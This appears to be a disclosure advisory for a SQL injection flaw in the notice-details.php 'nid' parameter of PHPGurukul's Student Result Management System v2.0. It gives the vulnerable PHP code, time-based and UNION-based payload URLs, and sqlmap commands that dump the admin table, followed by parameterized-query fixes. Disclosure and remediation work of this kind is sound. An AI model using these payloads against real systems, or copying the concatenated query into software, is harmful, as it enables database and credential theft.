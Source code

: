 **\[sql-injection] in \[Student Result Management System] <= \[v2.0]**

---

### 👨‍💻 **BUG Author:**

4m3rr0r
---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/student-result-management-system/](https://phpgurukul.com/student-result-management-system/)
* **Affected Version:** <= v2.0
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Time-Based & UNION-Based SQL Injection
* **Affected URL:** `http://localhost/srms/notice-details.php?nid=1`
* **Vulnerable Parameter:** `nid` (GET)
* **Vulnerable File:**

  * **File Name:** `notice-details.php`
  * **Path:** `/srms/notice-details.php`

---

### 🧨 **Vulnerability Type**

* **SQL Injection Vulnerability**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.1 (Base Score)

---

### 🧬 **Root Cause**

The application constructs SQL queries by directly inserting unvalidated user input into SQL statements without using prepared statements or escaping mechanisms. This allows attackers to inject arbitrary SQL commands.

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * from tblnotice where id='$noticeid'";
$query = $dbh->prepare($sql);
$query->execute();
```

---

### ⚠️ **Impact**

* Unauthorized access to all database contents
* Exposure of sensitive student data and admin credentials
* Possible privilege escalation (admin takeover)
* Full database extraction via automated tools (e.g., sqlmap)

---

### 📋 **Description**

1. **Vulnerability Details:**

   * SQL query is dynamically constructed using unsanitized input (`$_GET['nid']`)
   * No validation, escaping, or parameter binding
   * Affects both UNION and time-based SQLi techniques

2. **Attack Vectors:**

   * Blind SQL injection with time delays (`SLEEP()`)
   * UNION-based injection to extract DB structure and contents

3. **Attack Payload Examples:**

   * Time-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' AND SLEEP(5)-- -
     ```
   * UNION-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' UNION ALL SELECT NULL,CONCAT(0x7161,USER(),0x7171),NULL,NULL-- -
     ```

---

### 🔬 **Proof of Concept**

#### ✅ Confirmed Using `sqlmap`

```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" --dbs
```

![Databases ](./Images/2025-07-10_03-26.png) 

Output:

* Injection Type: Time-based and UNION-based
* Database Extracted: `srms`
* Admin table dumped via:


```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" -D srms -T admin --dump
```

![Databases ](./Images/2025-07-10_03-29.png) 

---

### 🛡 **Suggested Remediation**

* Use **parameterized queries** (PDO with bound parameters)
* Validate and sanitize all user input
* Avoid dynamic SQL wherever possible
* Example secure code:

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * FROM tblnotice WHERE id = :nid";
$query = $dbh->prepare($sql);
$query->bindParam(':nid', $noticeid, PDO::PARAM_INT);
$query->execute();
```

---

### 🔐 **Security Recommendations**

* Implement the **Principle of Least Privilege**
* Store passwords hashed and salted
* Conduct regular security audits
* Add a **Web Application Firewall (WAF)**
* Consider using modern PHP frameworks (Laravel, Symfony)

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---

### 🕐 **Mitigation Timeline**

| Phase      | Action                         |
| ---------- | ------------------------------ |
| Immediate  | Use prepared statements        |
| Short-term | Add input validation           |
| Long-term  | Adopt ORM (e.g., Eloquent ORM) |

---


